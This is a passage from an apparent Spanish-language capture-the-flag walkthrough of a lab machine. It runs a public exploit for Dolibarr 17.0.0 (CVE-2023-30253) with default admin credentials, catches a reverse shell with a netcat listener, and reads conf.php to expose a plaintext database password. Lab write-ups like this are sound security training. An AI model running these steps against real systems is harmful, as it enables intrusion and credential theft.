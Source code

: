 Si vemos que la version de la pagina es `Dolibarr 17.0.0` por lo que si buscamos un exploit lo encontraremos en GitHub...

URL = https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/blob/main/exploit.py

Como este exploit se necesita autenticacion y ya la tenemos lo utilizaremos...

```shell
python3 exploit.py http://crm.board.htb admin admin <IP> <PORT>
```

Info:

```
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

Mientras se esta ejecutando eso estaremos a la escucha...

```shell
nc -lvnp <PORT>
```

Y si esperamos un rato ya tendremos la shell con el usuario `www-data`...

Si nos vamos a la siguiente `URL`...

```
/html/crm.board.htb/htdocs/conf
```

Y leemos el archivo llamado `conf.php` veremos estas lineas interesantes...

```
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

Primero sanitizamos la shell...
